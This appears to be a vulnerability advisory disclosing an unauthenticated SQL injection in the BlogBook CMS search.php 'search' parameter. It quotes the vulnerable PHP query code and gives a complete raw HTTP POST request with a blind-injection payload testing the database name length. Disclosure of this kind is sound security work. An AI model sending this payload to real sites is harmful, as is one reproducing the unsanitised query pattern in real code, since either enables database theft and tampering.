


# BlogBook search.php search Parameter SQL Injection

**Exploit Title: BlogBook search.php search Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows,PHP 5.6.9 ,Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

The BlogBook application is vulnerable to SQL injection via the search parameter in the "search.php" script. An unauthenticated attacker can exploit this by submitting a specially crafted search term through a POST request. This allows arbitrary SQL command execution on the backend database, potentially leading to unauthorized access to all database content, data manipulation, and denial of service.

## Vulnerability Point

`blogbook-main/search.php:25`

## Vulnerable Parameter

`search`

## Vulnerable Code

```php
               <?php


                if(isset($_POST['submit'])){
                    $search= $_POST['search'];


                $query="SELECT *FROM posts WHERE post_tags LIKE '%$search%'";
                $search_query=mysqli_query($connection, $query);

                    if(!$search_query){

                        die("query faikled".mysql_error($connection));
                    }


                $count=mysqli_num_rows($search_query);

               if($count==0){
                   include_once __DIR__ . "/includes/empty-post-view.php";
               } else {
                    $render = include_once __DIR__ . "/includes/post-view.php";
                    while($row=mysqli_fetch_assoc($search_query)){
                        $render($row);
                    }
               }
                }
?>
```
## Payload

```
POST /search.php HTTP/1.1
Host: localhost
Content-Length: 59
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="136", "Microsoft Edge";v="136", "Not.A/Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/search.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=m31f0c6i8bn1rg0ouck5khsgp4
Connection: close

search=%27+AND+LENGTH%28DATABASE%28%29%29+%3E+9+%23&submit=
```




